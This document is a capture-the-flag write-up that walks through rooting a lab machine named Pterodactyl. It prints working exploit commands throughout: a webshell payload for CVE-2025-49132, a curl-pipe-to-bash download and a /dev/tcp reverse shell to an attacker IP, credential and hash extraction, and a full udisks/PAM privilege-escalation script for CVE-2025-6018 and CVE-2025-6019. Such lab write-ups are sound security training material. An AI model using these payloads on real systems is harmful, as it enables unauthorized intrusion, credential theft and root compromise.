



Exploitation Summary
The attack begins with an nmap scan that uncovers a web server running on port 80 alongside
virtual host enumeration, which reveals both play.pterodactyl.htb and
panel.pterodactyl.htb. The main site exposes a changelog.txt file
disclosing that Pterodactyl Panel v1.11.10 is installed, that PHP-PEAR is enabled, and that a
phpinfo.php debugging page exists. The phpinfo page reveals the exact PEAR
installation path, which turns out to be critical for the initial exploit.
The panel is vulnerable to CVE-2025-49132, an unauthenticated RCE affecting
Pterodactyl Panel v1.11.10. The vulnerability abuses the pearcmd namespace through
a path traversal in the locale parameter to create a PHP webshell on disk, which is then
triggered via a second request. By injecting a reverse shell payload through this webshell,
initial access is obtained as wwwrun.
Once inside, credentials found in the application's .env file give access to
MariaDB, where hashed passwords for both local users are extracted. Cracking the hash for
phileasfogg3 yields the plaintext password, and SSH access is established as that
user. A mail message in the user's inbox hints at suspicious udisksd activity,
pointing toward the privilege escalation path.
Privilege escalation chains two CVEs. CVE-2025-6018 exploits a flaw in PAM's
pam_env module: by creating a ~/.pam_environment file with
XDG_SEAT=seat0 and XDG_VTNR=1, the system is tricked into treating
the SSH session as a local physical login, granting the allow_active Polkit flag.
With that flag active, CVE-2025-6019 can be exploited: a crafted XFS image
containing a SUID bash binary is transferred to the target, mounted via udisksctl,
and a race condition during a filesystem resize operation allows the image to be mounted
without the usual nosuid/nodev security flags. Executing the SUID
bash from the mounted filesystem yields a root shell.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and running services on the target:

The results show a web server on port 80 and SSH on port 22, among others. I add
pterodactyl.htb to /etc/hosts and navigate to the site.
Web Enumeration
The main page presents a Minecraft server landing site:

The page references a subdomain play.pterodactyl.htb, which I also add to
/etc/hosts. Clicking the Changelogs link reveals a
changelog.txt file with several interesting disclosures:
- Pterodactyl Panel v1.11.10 is installed and served under a subdomain.
- PHP-PEAR has been explicitly enabled for PHP package management.
- A temporary phpinfo() debugging page has been added.
- The stack includes MariaDB 11.8.3 and nginx 1.21.5.
Running whatweb against the site confirms the PHP version:
http://pterodactyl.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.21.5], IP[10.129.1.225], PHP[8.4.8], Script, Title[My Minecraft Server], X-Powered-By[PHP/8.4.8], nginx[1.21.5]Virtual host fuzzing uncovers a third subdomain:
panel.pterodactyl.htb Status: 200 [Size: 1897]I add it to /etc/hosts. Directory fuzzing with gobuster also confirms the phpinfo page
exists at http://pterodactyl.htb/phpinfo.php. The phpinfo output shows the
include_path directive, which reveals the exact PEAR installation path on this system —
this will be essential for the exploit:
include_path .:/usr/share/php8:/usr/share/php/PEAR .:/usr/share/php8:/usr/share/php/PEARPterodactyl Panel — CVE-2025-49132
Navigating to panel.pterodactyl.htb confirms the Pterodactyl Panel interface:

Pterodactyl is an open-source game server management panel (https://pterodactyl.io/). Version 1.11.10 is vulnerable to CVE-2025-49132, a critical unauthenticated remote code execution vulnerability.
Understanding the Vulnerability
The vulnerability abuses the way Pterodactyl Panel handles locale loading. The panel exposes an
endpoint at /locales/locale.json that accepts a locale parameter for
path-based locale file resolution and a namespace parameter for the JSON key. By
passing pearcmd as the namespace, the request is handled by PHP-PEAR's CLI
configuration infrastructure instead.
Combined with the +config-create+ argument and a path traversal in the
locale parameter, this allows an attacker to write arbitrary PHP content to a file on
disk — effectively creating a webshell. A second request then loads that file by traversing back
to /tmp, triggering code execution.
A PoC is available at: https://github.com/0xtensho/CVE-2025-49132-poc/blob/main/poc.py
The generic two-step payload structure is:
curl "http://{host}/locales/locale.json?+config-create+&locale=../../../../../usr/local/lib/php&namespace=pearcmd&<?=system('{payload}')?>+/tmp/payload.php"
curl "http://{host}/locales/locale.json?locale=../../../../../tmp&namespace=payload"The first request creates the PHP payload file via the PEAR config mechanism; the second triggers it by referencing it as a locale file.
Adapting the Exploit to This Target
Using the default path /usr/local/lib/php (as shown in the generic PoC) does not work
here — it produces the following benign-looking JSON response with no code execution:
curl "http://panel.pterodactyl.htb/locales/locale.json?+config-create+&locale=../../../../../usr/local/lib/php&namespace=pearcmd&<?=system('id')?>+/tmp/payload.php"{"..\/..\/..\/..\/..\/usr\/local\/lib\/php":{"pearcmd":[]}}According to the vulnerability documentation, a successful exploitation should return an HTTP 500
error (because the PEAR config write triggers a PHP parse), not a clean JSON response. Since the
phpinfo page revealed that PEAR lives at /usr/share/php/PEAR, I modify the path
accordingly:
curl "http://panel.pterodactyl.htb/locales/locale.json?+config-create+/&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/<?=system('id')?>+/tmp/payload5.php"This time, PEAR correctly processes the request and returns its configuration output, confirming the webshell has been written to disk. Triggering it:
curl "http://panel.pterodactyl.htb/locales/locale.json?locale=../../../../../tmp&namespace=payload5"Returns output containing the result of id embedded in the PEAR config blob — RCE
confirmed as wwwrun.
Getting a Reverse Shell
Spaces in the shell command cannot be passed as literal spaces or URL-encoded characters in this
context — the URL parameter parsing strips them. The standard workaround is to use the
${IFS} shell internal field separator as a space substitute. I first verify
connectivity with a simple curl-back:
curl "http://panel.pterodactyl.htb/locales/locale.json?+config-create+/&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/<?=system('curl\$\{IFS\}10.10.16.94')?>+/tmp/payload2.php"curl "http://panel.pterodactyl.htb/locales/locale.json?locale=../../../../../tmp&namespace=payload2"My HTTP server receives the request, confirming outbound connectivity from the target:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.1.225 - - "GET / HTTP/1.1" 200 -To deliver the reverse shell cleanly, I host it as the index.html on my Python HTTP
server and pipe it to bash from the target. My index.html contains:
bash -c "bash -i >& /dev/tcp/10.10.16.94/443 0>&1"I start my Python server on port 80, set up a netcat listener on port 443, and fire the payload:
curl "http://panel.pterodactyl.htb/locales/locale.json?+config-create+/&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/<?=system('curl\$\{IFS\}10.10.16.94\$\{IFS\}|bash')?>+/tmp/payload3.php"curl "http://panel.pterodactyl.htb/locales/locale.json?locale=../../../../../tmp&namespace=payload3"The target fetches my shell script and executes it:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.1.225 - - "GET / HTTP/1.1" 200 -listening on [any] 443 ...
connect to [10.10.16.94] from (UNKNOWN) [10.129.1.225] 52228
bash: cannot set terminal process group (1209): Inappropriate ioctl for device
bash: no job control in this shell
wwwrun@pterodactyl:/var/www/pterodactyl/public>Initial access obtained as wwwrun.
Local Enumeration
Listing /home reveals two user accounts:
drwxr-x--- 1 headmonitor users 140 Dec 31 17:29 headmonitor
drwxr-xr-x 1 phileasfogg3 users 156 Dec 31 17:29 phileasfogg3Both belong to the users group. The home directory of
phileasfogg3 is world-readable, and the user flag resides there.
The application's .env file at /var/www/pterodactyl/.env leaks database
credentials:
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=panel
DB_USERNAME=pterodactyl
DB_PASSWORD=PteraPanel
REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379Connecting to MariaDB with these credentials and querying the panel database:
select username, password from users;+--------------+--------------------------------------------------------------+
| username | password |
+--------------+--------------------------------------------------------------+
| headmonitor | $2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2 |
| phileasfogg3 | $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi |
+--------------+--------------------------------------------------------------+Running these bcrypt hashes through hashcat cracks the password for
phileasfogg3:
$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi:!QAZ2wsxI SSH in as phileasfogg3 using this password and check sudo privileges:
sudo -lMatching Defaults entries for phileasfogg3 on pterodactyl:
always_set_home, env_reset,
env_keep="LANG LC_ADDRESS LC_CTYPE LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE LC_TIME
LC_ALL LANGUAGE LINGUAS XDG_SESSION_COOKIE", !insults,
secure_path=/usr/sbin\:/usr/bin\:/sbin\:/bin, targetpw
User phileasfogg3 may run the following commands on pterodactyl:
(ALL) ALLAt first glance this looks like unrestricted sudo, but the targetpw directive requires
the password of the target user (i.e., root), not the current user. Without root's
password, this entry is effectively useless.
Mail Hint
phileasfogg3 has a mail message at /var/mail/phileasfogg3:
From: headmonitor <headmonitor@pterodactyl>
To: All Users <all@pterodactyl>
Subject: SECURITY NOTICE — Unusual udisksd activity (stay alert)
Attention all users,
Unusual activity has been observed from the udisks daemon (udisksd).
No confirmed compromise at this time, but increased vigilance is required.
Do not connect untrusted external media. Review your sessions for suspicious
activity. Administrators should review udisks and system logs and apply pending
updates.
Report any signs of compromise immediately to headmonitor@pterodactyl.htb
— HeadMonitor
System AdministratorThe explicit mention of udisksd is a strong hint toward the privilege escalation
vector. The OS is also relevant:
cat /etc/os-releaseNAME="openSUSE Leap"
VERSION="15.6"
ID="opensuse-leap"Additionally, noting the PATH for this user — /home/phileasfogg3/bin
appears first, which is worth keeping in mind for any path-based techniques.
Privilege Escalation — CVE-2025-6018 + CVE-2025-6019
Investigating vulnerabilities in udisks on openSUSE leads to two chained CVEs documented
at https://socprime.com/blog/cve-2025-6018-and-cve-2025-6019-lpe-vulnerabilities/:
- CVE-2025-6018 — PAM
pam_envlocal privilege escalation via~/.pam_environment - CVE-2025-6019 — Polkit
allow_activeudisks mount race condition exploit
CVE-2025-6018 — Faking Physical Presence via PAM
Certain Polkit actions, including the ability to mount filesystems via udisks, are
gated behind the allow_active flag. This flag is normally only granted to users who
are physically present at the machine (i.e., on a local TTY), not SSH sessions.
CVE-2025-6018 exploits a flaw in PAM's pam_env module: it trusts the user's own
environment file (~/.pam_environment) without sufficient validation. By creating
this file with the following content, the system is tricked into believing the SSH session
is a physical local login:
XDG_SEAT=seat0
XDG_VTNR=1XDG_SEAT=seat0 identifies a physical seat, and XDG_VTNR=1 assigns a
virtual terminal number — both are conditions that Polkit checks to determine whether a session
is considered "active" in the local sense. With these variables set, re-authenticating (e.g.,
via a new SSH login or su) causes PAM to load them and grant the
allow_active permission to the session.
CVE-2025-6019 — udisks Mount Race Condition (SUID Exploit)
With the allow_active flag active, udisks permits the user to mount
filesystems. Normally, user-mounted filesystems are mounted with nosuid and
nodev flags, which prevent SUID binaries from being effective.
CVE-2025-6019 exploits a race condition during a filesystem resize operation: when a resize is
triggered through the D-Bus interface (org.freedesktop.UDisks2.Filesystem.Resize),
there is a brief window where the filesystem is remounted without the security flags.
If a SUID binary is present on that filesystem and executed during this window, it runs with
elevated privileges.
The exploitation flow is:
- Create an XFS image on the attacker machine containing a SUID bash binary.
- Transfer the image to the target.
- Mount the image as a loop device via
udisksctl loop-setup. - Keep the filesystem "busy" in the background to prevent automatic unmounting.
- Trigger a filesystem resize via
gdbus callto the UDisks2 interface — this causes the race condition. - Locate the SUID bash in
/tmp/blockdev*/bashand execute it with-pto preserve the effective UID.
Preparing the XFS Image
On the attacker machine, I create an XFS filesystem image with a SUID bash binary embedded:
dd if=/dev/zero of=xfs.image bs=1M count=300
mkfs.xfs -f xfs.image
mount xfs.image /mnt
cp /bin/bash /mnt/bash
chmod 4755 /mnt/bash
umount /mntI then serve it with a Python HTTP server and download it on the target with
wget or curl.
Applying CVE-2025-6018 and Running the Exploit
First, I create the ~/.pam_environment file as phileasfogg3 and
re-login via SSH so the PAM variables are loaded into the session. With the
allow_active permission now in effect, I run the exploit script adapted from the
PoC at https://github.com/guinea-offensive-security/CVE-2025-6019/blob/main/exploit.sh.
The relevant exploit logic is:
# Set up loop device
echo "[*] Setting up loop device..."
LOOP_DEV=$(udisksctl loop-setup --file ./xfs.image --no-user-interaction | grep -o '/dev/loop[0-9]*')
if [ -z "$LOOP_DEV" ]; then
echo "[-] Error: Failed to set up loop device."
exit 1
fi
echo "[+] Loop device configured: $LOOP_DEV"
# Keep filesystem busy to prevent unmounting
echo "[*] Keeping filesystem busy to prevent unmounting..."
while true; do /tmp/blockdev*/bash -c 'sleep 10; ls -l /tmp/blockdev*/bash' && break; done 2>/dev/null &
LOOP_PID=$!
echo "[+] Background loop started (PID: $LOOP_PID)"
# Resize filesystem to trigger mount (race condition)
echo "[*] Resizing filesystem to trigger mount..."
for i in {1..3}; do
gdbus call --system --dest org.freedesktop.UDisks2 \
--object-path "/org/freedesktop/UDisks2/block_devices/${LOOP_DEV##*/}" \
--method org.freedesktop.UDisks2.Filesystem.Resize 0 '{}' > gdbus_output.txt 2>&1
if grep -q "Error resizing filesystem" gdbus_output.txt; then
echo "[+] Mount successful (expected error: target is busy)."
break
fi
echo "[*] Attempt $i: Unexpected response, retrying in 1 second..."
sleep 1
if [ $i -eq 3 ]; then
echo "[-] Error: Failed to resize filesystem after 3 attempts."
kill $LOOP_PID 2>/dev/null
udisksctl loop-delete --block-device "$LOOP_DEV" 2>/dev/null
rm -f gdbus_output.txt
exit 1
fi
done
# Wait for mount to stabilize
sleep 2
# Find the SUID bash
echo "[*] Checking for SUID bash in /tmp/blockdev*..."
SUID_BASH=""
for i in {1..5}; do
SUID_BASH=$(find /tmp -maxdepth 2 -path "/tmp/blockdev*/bash" -perm -4000 -type f 2>/dev/null)
if [ -n "$SUID_BASH" ]; then
echo "[+] SUID bash found: $SUID_BASH"
ls -l "$SUID_BASH"
break
fi
echo "[*] Attempt $i: SUID bash not found, retrying..."
sleep 1
done
if [ -z "$SUID_BASH" ]; then
echo "[-] Error: SUID bash not found after 5 attempts."
kill $LOOP_PID 2>/dev/null
udisksctl loop-delete --block-device "$LOOP_DEV" 2>/dev/null
rm -f gdbus_output.txt
exit 1
fi
# Execute the SUID shell
echo "[*] Executing root shell..."
"$SUID_BASH" -pRunning the exploit produces the following output and drops into a root shell:
[*] Setting up loop device...
[+] Loop device configured: /dev/loop0
[*] Keeping filesystem busy to prevent unmounting...
[+] Background loop started (PID: 16800)
[*] Resizing filesystem to trigger mount...
[+] Mount successful (expected error: target is busy).
[*] Waiting 2 seconds for mount to stabilize...
[*] Checking for SUID bash in /tmp/blockdev*...
[+] SUID bash found: /tmp/blockdev.MKY3J3/bash
-rwsr-xr-x 1 root root 1380656 Feb 8 20:57 /tmp/blockdev.MKY3J3/bash
[*] Executing root shell...
bash-5.3#Root shell obtained. The root flag is retrievable from /root/root.txt.